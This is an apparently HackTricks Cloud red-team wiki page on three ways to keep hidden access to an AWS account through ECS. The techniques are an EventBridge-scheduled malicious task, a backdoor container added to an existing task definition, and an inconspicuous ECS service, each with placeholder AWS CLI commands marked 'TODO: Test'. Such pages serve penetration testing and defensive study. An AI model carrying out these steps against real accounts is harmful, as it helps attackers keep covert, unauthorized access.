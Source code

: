 # AWS - ECS Persistence

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## ECS

For more information check:

{% content-ref url="../aws-services/aws-ecs-enum.md" %}
[aws-ecs-enum.md](../aws-services/aws-ecs-enum.md)
{% endcontent-ref %}

### Hidden Periodic ECS Task

{% hint style="info" %}
TODO: Test
{% endhint %}

An attacker can create a hidden periodic ECS task using Amazon EventBridge to **schedule the execution of a malicious task periodically**. This task can perform reconnaissance, exfiltrate data, or maintain persistence in the AWS account.

```bash
# Create a malicious task definition
aws ecs register-task-definition --family "malicious-task" --container-definitions '[
  {
    "name": "malicious-container",
    "image": "malicious-image:latest",
    "memory": 256,
    "cpu": 10,
    "essential": true
  }
]'

# Create an Amazon EventBridge rule to trigger the task periodically
aws events put-rule --name "malicious-ecs-task-rule" --schedule-expression "rate(1 day)"

# Add a target to the rule to run the malicious ECS task
aws events put-targets --rule "malicious-ecs-task-rule" --targets '[
  {
    "Id": "malicious-ecs-task-target",
    "Arn": "arn:aws:ecs:region:account-id:cluster/your-cluster",
    "RoleArn": "arn:aws:iam::account-id:role/your-eventbridge-role",
    "EcsParameters": {
      "TaskDefinitionArn": "arn:aws:ecs:region:account-id:task-definition/malicious-task",
      "TaskCount": 1
    }
  }
]'
```

### Backdoor Container in Existing ECS Task Definition

{% hint style="info" %}
TODO: Test
{% endhint %}

An attacker can add a **stealthy backdoor container** in an existing ECS task definition that runs alongside legitimate containers. The backdoor container can be used for persistence and performing malicious activities.

```bash
# Update the existing task definition to include the backdoor container
aws ecs register-task-definition --family "existing-task" --container-definitions '[
  {
    "name": "legitimate-container",
    "image": "legitimate-image:latest",
    "memory": 256,
    "cpu": 10,
    "essential": true
  },
  {
    "name": "backdoor-container",
    "image": "malicious-image:latest",
    "memory": 256,
    "cpu": 10,
    "essential": false
  }
]'
```

### Undocumented ECS Service

{% hint style="info" %}
TODO: Test
{% endhint %}

An attacker can create an **undocumented ECS service** that runs a malicious task. By setting the desired number of tasks to a minimum and disabling logging, it becomes harder for administrators to notice the malicious service.

```bash
# Create a malicious task definition
aws ecs register-task-definition --family "malicious-task" --container-definitions '[
  {
    "name": "malicious-container",
    "image": "malicious-image:latest",
    "memory": 256,
    "cpu": 10,
    "essential": true
  }
]'

# Create an undocumented ECS service with the malicious task definition
aws ecs create-service --service-name "undocumented-service" --task-definition "malicious-task" --desired-count 1 --cluster "your-cluster"
```

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
